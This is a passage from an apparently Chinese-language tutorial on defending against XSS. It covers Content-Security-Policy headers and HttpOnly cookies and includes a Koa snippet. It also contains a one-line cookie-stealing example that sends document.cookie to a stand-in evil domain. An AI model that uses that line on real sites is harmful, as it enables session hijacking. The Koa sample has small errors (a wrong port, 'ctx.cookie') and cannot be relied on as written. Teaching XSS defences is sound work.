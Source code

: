 ```html
<meta
  http-equiv="Content-Security-Policy"
  content="default-src https://onlinebanking.jumbobank.com"
/>

<!--  一个在线邮箱的管理者想要允许在邮件里包含HTML，同样图片允许从任何地方加载，但不允许JavaScript或者其他潜在的危险内容（从任意位置加载）。 -->
<meta http-equiv="Content-Security-Policy" content="default-src 'self' *.mailsite.com; img-src *" />
```

启用后，不符合 CSP 的外部资源就会被阻止加载。

严格的 CSP 在 XSS 的防范中可以起到下列的作用：

- 禁止加载外域代码，防止复杂的攻击逻辑
- 禁止外域提交，网站被攻击后，用户的数据不会泄漏到外域
- 禁止内联脚本执行（规则较严格，目前发现 Github 使用）
- 禁止未授权的脚本执行（新特性，Google Map 移动版在使用）
- 合理使用上报可以及时发现 XSS，利于尽快修复问题

> 更多关于 CSP 的理解可以参考 [Content Security Policy（CSP）是什么？为什么它能低于 XSS 攻击？](https://www.zhihu.com/question/21979782)
>
> 或者查看关于 [HTTP CSP 内容安全策略](/computer-networks/http/content-security-policy) 的整理。

### HTTPOnly Cookie

窃取网页 Cookie 的示例：

```js
new Image().src = 'http://www.evil-domain.com/steal-cookie.php?cookie=' + document.cookie;
```

使用 HttpOnly Cookie 将重要的 Cookie 标记为 `http-only`，这样的话当浏览器向 Web 服务器发起请求的时就会带上 Cookie 字段，但是在 JavaScript 脚本中却不能访问这个 Cookie，这样就避免了 XSS 攻击利用 JavaScript 的 `document.cookie` 获取 Cookie。

在 Koa 中设置 Cookie `httpOnly` 属性：

```js
const Koa = require('koa');
const app = new Koa();

app.use(async (ctx) => {
  if (ctx.url === '/index') {
    ctx.cookie.set('cid', 'hello world', {
      // 写 Cookie 所在域名
      domain: 'localhost',
      // 写 Cookie 所在的路径
      path: '/index',
      // Cookie 有效时长
      maxAge: 10 * 60 * 1000,
      // Cookie 失效时间
      expires: new Date('2017-02-15'),
      // 是否只用于 HTTP 请求中获取
      httpOnly: true,
      // 是否允许重写
      overwrite: false,
    });

    ctx.body = 'Cookie is ok.';
  } else {
    ctx.body = 'Hello world!';
  }
});

app.listen(300, () => {
  console.log('[demo] Cookie is starting at port 3000');
```